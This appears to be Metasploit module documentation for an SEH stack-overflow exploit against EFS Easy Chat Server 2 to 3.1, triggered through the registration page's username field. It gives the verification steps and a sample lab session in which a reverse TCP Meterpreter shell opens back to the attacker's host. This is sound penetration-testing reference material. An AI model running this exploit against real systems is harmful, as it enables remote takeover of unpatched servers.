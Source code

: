 ## Description

This module exploits a vulnerability in the EFS Easy Chat Server application, from version 2 to 3.1, affecting the username parameter in Registration page 'register.ghp', which is prone to a stack overflow vulnerability.

This module allows a remote attacker to get a payload executed under the context of the user running the Easy Chat Server application

## Vulnerable Application

[Easy Chat Server](http://echatserver.com/) Easy Chat Server is a easy, fast and affordable way to host and manage real-time communication software.

This module has been tested successfully on

* Easy Chat Server 3.1 on Windows XP En SP3

Installers:

[EFS Easy Chat Server Installers](http://echatserver.com/ecssetup.exe)

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploits/windows/http/easychatserver_seh`
3. Do: `set rhosts [IP]`
4. Do: `exploit`
5. You should get your payload executed

## Scenarios

```
marco@kali:~$ msfconsole -q
msf > use exploit/windows/http/easychatserver_seh
msf exploit(easychatserver_seh) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(easychatserver_seh) > exploit
 
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (957487 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:1037) at 2017-06-20 00:43:51 +0200
 
meterpreter > sysinfo
Computer    	: MM-8B040C5B05D9
OS          	: Windows XP (Build 2600, Service Pack 3).
Architecture	: x86
System Language : en_US
Domain      	: WORKGROUP
Logged On Users : 2
Meterpreter 	: x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...
 
[*] 192.168.56.101 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(easychatserver_seh) >
```
